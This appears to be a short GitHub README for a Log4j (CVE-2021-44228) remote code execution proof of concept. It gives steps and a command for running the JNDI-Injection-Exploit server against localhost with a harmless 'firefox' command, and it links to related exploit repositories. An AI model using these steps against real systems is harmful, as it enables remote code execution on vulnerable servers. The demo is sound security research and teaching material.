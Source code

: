 ## Log4j RCE POC using [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

- Start the server with the command using -C arg
```java -jar ./tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "firefox" -A "127.0.0.1"```
- The above command will start the server and logs out the url for LDAP and RMI.
- Copy the LDAP url and replace it in the Main java file.

- Run the log4jPOC project in IDE like Intellij.

## Ref
- https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
- https://github.com/welk1n/JNDI-Injection-Exploit
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
 

